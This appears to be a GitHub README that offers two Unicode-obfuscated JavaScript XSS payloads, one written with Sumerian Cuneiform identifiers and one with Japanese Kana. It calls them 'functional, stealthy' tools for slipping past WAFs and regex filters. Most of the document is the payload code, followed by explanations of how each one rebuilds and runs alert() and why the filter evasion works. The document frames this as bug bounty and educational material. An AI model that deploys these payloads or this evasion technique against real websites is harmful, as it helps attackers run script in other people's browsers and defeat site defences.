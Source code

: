 
# 🧠 Unicode-Based XSS Payloads – Ancient Scripts vs. Modern Filters
![Unicode-Based XSS Payloads - CyberSecPlayground](https://github.com/user-attachments/assets/5cec7fdd-476a-4ab3-a1e4-998cb7ae4048)

## Overview

This file demonstrates **Unicode-obfuscated XSS (Cross-Site Scripting)** payloads that leverage non-standard Unicode characters such as **Sumerian Cuneiform** and **Japanese Kana** to bypass naive input filters, WAFs, or static regex-based sanitization. These payloads are functional, stealthy, and great for both **bug bounty testing** and **educational demonstrations**.

---

## Payload 1: Sumerian Cuneiform Unicode XSS

```js
𒀱='',𒁍=!𒀱+𒀱,𒂖=!𒁍+𒀱,𒃵=𒀱+{},𒄿=𒁍[𒀱++],𒅗=𒁍[𒀲=𒀱],
𒆜=++𒀲+𒀱,𒇻=𒃵[𒀲+𒆜],
𒁍[𒇻+=𒃵[𒀱]+(𒁍.𒂖+𒃵)[𒀱]+𒂖[𒆜]+𒄿+𒅗+𒁍[𒀲]+𒇻+𒄿+𒃵[𒀱]+𒅗][𒇻](𒂖[𒀱]+𒂖[𒀲]+𒁍[𒆜]+𒅗+𒄿+"('𒀱𒀲𒀱𒋻𒆜𒀲𒁂𒐫𒉿𒀜𒅔')")()
```

### ✅ Explanation:

- Uses valid Unicode cuneiform characters as JavaScript variable names.
- Dynamically constructs and executes: `alert('𒀱𒀲𒀱𒋻𒆜𒀲𒁂𒐫𒉿𒀜𒅔')`
- Evades traditional filters and regex-based protection.
- Excellent for bypassing naive WAFs or static filters.

---

## Payload 2: Japanese Kana Unicode XSS

```js
あ='',い=!あ+あ,う=!い+あ,え=あ+{},お=い[あ++],か=い[き=あ],
く=++き+あ,け=え[き+く],
い[け+=え[あ]+(い.う+え)[あ]+う[く]+お+か+い[き]+け+お+え[あ]+か][け](う[あ]+う[き]+い[く]+か+お+"('ハッキングされました')")()
```

### ✅ Explanation:

- Obfuscated JS using Japanese Hiragana characters.
- Gradually builds and executes: `alert('ハッキングされました')`
- Functions identically to standard `alert()` payloads.
- Unicode characters are allowed as JS identifiers, so they bypass many basic filters.

---

## 🔍 Why These Work

- **JavaScript supports Unicode variable names**, so these are parsed and executed just like any normal code.
- **WAFs and static filters** often scan for common patterns like `alert`, `script`, or standard ASCII payloads. These bypass such patterns.
- Great for **reflected XSS**, **stored XSS**, or **CTF-style evasions**.

---

## ⚠️ Disclaimer

These payloads are intended for educational use in **authorized environments only**. Never use them for illegal activities.

---

## 📡 Follow Us

- 🔗 Telegram: [@cybersecplayground](https://t.me/cybersecplayground)
- 🔗 GitHub: [https://github.com/cybersecplayground](https://github.com/cybersecplayground)
- 🔗 Medium: [https://medium.com/@cybersecplayground](https://medium.com/@cybersecplayground)

### 🏷 Tags:
`#XSS` `#UnicodeXSS` `#BugBounty` `#infosec` `#websecurity` `#WAFBypass` `#cybersecplayground`
